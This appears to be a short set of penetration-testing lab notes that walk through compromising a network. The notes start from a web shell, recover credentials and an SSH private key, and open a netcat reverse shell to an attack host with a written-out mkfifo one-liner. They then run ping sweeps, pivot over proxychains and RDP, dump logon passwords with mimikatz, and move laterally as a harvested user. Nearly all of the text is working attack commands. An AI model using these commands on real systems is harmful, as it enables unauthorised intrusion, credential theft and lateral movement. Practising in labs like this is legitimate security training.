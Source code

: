 10.129.229.129 - web shell
Credentials and id_rsa private key in /home/webadmin

Next, create a bind shell and upgrade tty to do a ping sweep

Attack host:
sudo nc -lvnp 1234

Web shell:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.94 1234 >/tmp/f

Ping sweep from web shell host:
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

Found 172.16.5.35

proxychain xfreerdp into machine

download mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

Get credentials for vfrank

RDP into 172.16.6.35 with vfrank

Ping sweep:
for /L %i in (1 1 254) do ping 172.16.6.%i -n 1 -w 100 | find "Reply"

rdp into 172.16.6.25 using vfrank


